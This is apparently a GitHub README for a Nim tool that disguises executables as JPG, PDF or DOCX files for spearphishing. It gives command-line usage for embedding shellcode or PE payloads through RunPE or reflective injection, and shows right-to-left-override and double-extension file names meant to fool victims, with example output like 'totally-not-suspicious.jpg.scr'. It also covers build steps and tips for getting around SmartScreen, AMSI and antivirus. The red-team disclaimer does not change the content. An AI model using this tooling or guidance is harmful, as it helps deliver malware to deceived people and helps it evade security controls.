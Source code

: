 # Executable Masquerading
Generate an executable that acts like a normal file (JPG, PDF, DOCX etc) with the file data embedded directly inside PE. Made for spearphishing and personally I think this is effective (kinda). Built with Nim cause why not, I terribly hate C++ anyway.

> Disclaimer: <br>
> This tool is not intended for any illegal phishing attack, I made it specifically for my own usage in red-team demonstration and for other fellow red-teamer.
> Of course, in that way, all actions anyone done with this tool have nothing to do with me. And I highly discourage the very usage of this tool (cause, well, even if u're a legal pentester ur client will most likely despise spearphishing attacks).

![](https://github.com/idfp/masquerade/blob/main/assets/demo.gif)
## TODO:
- Linux environment supports (not linux based payloads.)
- Self Cleaning function (delete executable after execution and replace it with normal files.)
- Document known limitations.
- Write better use cases.
## Usage
```bash
masquerade.exe [OPTIONS] <targetfile>
Options:

    Basic:
    --payload=<path> Payload to embed in the end result, must be either DLL or a shellcode file.
    -p shorthand for --payload

    --output=<path> output file name, do not include the scr extension.
    -o shorthand for --output

    --type define how the scr file should execute the payload, can be Either:
        basic, ReflectivePE, or RunPE (default basic)
    -t shorthand for --type

    Advanced (might be useful for AMSI bypass):
    --naming=<rtl | normal> define how the file should be named, either using Right to left or normal (double extension, actually).
        rtl or normal (default normal)
    -n shorthand for --naming

    --disable-rename do not rename the file and keep it in template/ directory.
    -d shorthand for --disable-rename

    --use-exe rename the output file with .exe extension instead of .scr
    -e shorthand for --use-exe

    --add-random=<length> add random string by certain length to filename (with purpose of preventing users from realizing the double ext)
    -r shorthand for --add-random

```
Example: <br>

Generate an executable that loads pict.jpg when being run, and execute payload `test.exe` through reflective PE injection.
```sh
masquerade.exe --payload=test.exe --type=ReflectivePE pict.jpg
```
Generate the same thing, but write output file into `totally-not-suspicious.jpg.scr`
```sh
masquerade.exe --payload=test.exe --type=ReflectivePE --output=totally-not-suspicious.jpg pict.jpg
```

## Installation / Building
Make sure you have nim compiler loaded into your windows PATH plus its dependencies (mingw for compiling c / c++).
Then install all dependencies with nimble:
```bash
nimble install winim ptr_math
```
Build `masquerade.nim` with this command:
```bash
nim c -d:release --threads:on masquerade.nim
```
the resulted `masquerade.exe` can be used as I exampled above.
### Payload Compiling
Any exe payload is fine actually (with some pitfalls, I'll explain it in later part). But if you want to compile the payload with Nim, make sure you build it this way:
```cmd
nim c -d:release -d:danger -d:strip --opt:size --threads:on --app:gui payload.nim
```
This will create a very compressed exe payload (around 60KB for basic Msgbox payload, without this it will sized 330KB).

## Pitfalls and Strategies
First thing I want to note, for both myself and the users is that this attack can be easily detected either by victim themselves or by the AMSI. In some cases the whole payload won't even get executed due to smartscreen blockage, forcing you to sign the executable (which is kinda hard, though possible, by signature cloning).

The Right-to-Left Override will most likely trigger smartscreen, so only use this to fool victim that have disabled their smartscreen. This is very disappointing since RTLO is so powerful to deceive even the eyes of experts. 

That doesn't mean RTLO is obsolete tho, with certain payload or algoritm, it's perfectly usable. In my first phase of development RTLO run perfectly, it only started to fail after certain implementation of file embedding.

On the other hand, double extension works finely for most cases. Just use `.exe` + `.jpg ` if u're not sure which one to choose, since `.scr` + `.jpg` failed in some scenario.

This tool perfectly suited for organization spearphishing that targets multiple person with different digital ecosystem. Since some of them might haven't turn on "show file extension" option while the other side might have disabled smartscreen and Av completely. 

### Changing Output Icon
use `rcedit.exe` in `bin` folder to edit ur executable icon. here's the syntax
```bash
rcedit.exe "(your exe file)" --set-icon (your ico file)
```